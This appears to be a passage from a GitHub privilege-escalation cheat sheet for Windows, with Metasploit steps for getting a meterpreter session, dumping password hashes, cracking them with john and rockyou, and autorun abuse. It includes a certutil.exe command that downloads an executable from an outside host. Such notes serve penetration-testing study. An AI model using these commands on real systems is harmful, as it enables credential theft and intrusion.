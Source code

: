 - Search for `search_to_meterpreter` with `search <keyword>`

![image](https://github.com/user-attachments/assets/3d6e3cb1-ba21-4fa1-a890-f2d729f60129)

- Type, `use 0` or `use <keyword>`

![image](https://github.com/user-attachments/assets/5eebe888-3445-4e08-8f1f-465fddbd6560)

- Use options to show options

![image](https://github.com/user-attachments/assets/b5a65c68-5508-457f-9117-a854cd2a6a82)

- Then,check for sessions with `sessions -i`

![image](https://github.com/user-attachments/assets/6b32651e-062f-4436-adba-7850146aaf24)

- RUn

![image](https://github.com/user-attachments/assets/918845c9-68fb-4d27-9c9e-a03df77f8e24)

### Using Msfconsole Hashdump rb script

- Shell must be a meterpreter shell,run `search "hashdump"` to search for hashdump and follow the process in a picture

![image](https://github.com/user-attachments/assets/35ad8d4e-a149-4bb4-a1ca-191e3908dd03)

- Result

![image](https://github.com/user-attachments/assets/bc8f3974-c833-4df7-ab61-bd5081fb4f26)

- Use `john` to crack the hash

      john --format=NT --wordlist=/home/sensei/rockyou.txt hashfile

![image](https://github.com/user-attachments/assets/b84b14f0-afde-4068-9c41-4aad6dbf3aa5)


--------------

### Using `certutil.exe` to copy files

`certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`

--------------

### Abusing autoruns

- Run `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe` in cmd to check for `logon` autorun

![image](https://github.com/user-attachments/assets/df520e32-7cce-4f44-9348-19338d37fc80)

- Use `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe" to check for permission.
